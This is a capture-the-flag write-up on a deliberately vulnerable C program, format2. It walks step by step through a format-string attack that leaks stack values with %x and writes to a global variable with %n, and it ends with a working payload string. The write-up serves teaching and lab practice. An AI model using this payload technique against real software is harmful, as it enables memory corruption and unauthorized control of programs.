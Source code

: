 ```yaml
---
title:  "format2 Writeup"
date:   2019-04-01 15:26:00
categories: writeup 
layout: post
author: Ioannis Kyriazis
---
```



Code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];
  char flagBuffer[64];
  FILE *fp;

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);

  fp = fopen("./flag.txt", "r");

  if(target == 64) {
      printf("you have modified the target :)\n");

      fgets(flagBuffer, 64, (FILE*)fp);
      printf("flag: %s\n", flagBuffer);
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Objective: Modify the target variable to equal 64 ###

format2.c uses fgets to receive 512 bytes from stdin. This prevents buffer overflows because fgets stops once it receives 512 bytes. What else can we try? If we look at `printf(buffer)` we can see that it prints whatever you supply to stdin without checking your string. What do you think would happen if you entered `%x %x %x`?

.

.

.

It would print out the hex values of whatever is on the stack. Since `%x` expects a parameter and parameters are stored on the stack it will just print the next value on the stack. So what? How will that help us change the value of `target`? Well, the `%n` format specifier is used to write the amount of printed characters into printf's corresponding parameter. For example, 

`printf("hi my name is %s%n", name, &len)` 

would put the value `14 + strlen(name)` into the variable `len`

With this information we can put the address of `target` on the stack and then write to it using the `%n` format specifier. How do we put the address of target onto the stack? First, we need to get its address. We can find it by running `objdump -t format2` in the format2r directory. Then we look for `target`. I found this line

`0804a048 g     O .bss   00000004              target` 

Aha! The address of target is `0x0804a048`! What can we do with it? We can put it on the stack and write to it with the `%n` format specifier! An easy way to put the address of `target` on the stack is to just put it in your exploit string. Before we do that though, we can make it easier on ourselves by using `aaaa` as the address we want to write to. This is better because it is easier to recognize `0x61616161` than `0x0804a048` in a sea of hex numbers. So now our python script that prints our exploit string should look like `python -c "print('aaaa' + '%x '*100)"`. This will put `0x61616161` on the stack and will print out the contents of the stack. Let's find our a's. 

`aaaa200 f7f3d580 f7f74000 f7f41f74 0 4c f7d68e88 0 0 0 0 0 0 0 f7f8a1b7 f7f43000 2cfba f7f867c9 f7f9cfb4 bee2a90c f7f8a186 0 61616161 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 804000a ff9422a4 
target is 0 :(`

As we can see, aaaa is printed at the beginning. This is because it is part of our string. Our string of a's is also printed again in hex. It is the 23rd element on the stack. We can select it specifically with the `$` addition to the format specifier. So `printf("aaaa%23$x")` should print out `aaaa0x61616161`. Your python script should now look like `python -c "print('aaaa' + '%23\$x')`. We need to include the `\` because it escapes the `$` character. Now if you run format2 with your exploit string you should get 

`aaaa61616161
target is 0 :(`

Now that we have isolated the address, let's replace it with the actual address of `target` instead of `0x61616161`. Our python script should look like `python -c "print('\x48\xa0\x04\x08' + '%23\$x')"`. If we run the program with that output we should get

`aaaa0804a048
target is 0 :(`

Let's write-what-where! Instead of `%x`, we'll use `%n` to actually write to `target`'s value. Simply replacing the x with an n, the output of the program changes to 

`H
target is 4 :(`
(If you are getting a segfault here, make sure that you are using python2)

We modified `target`!  However, we're not done yet.  How do we change the value to 64? Simply add 60 bytes of padding. 
`python -c "print('\x48\xa0\x04\x08' + '%60x' + '%23\$n')"`
Viola! You have modified the target :)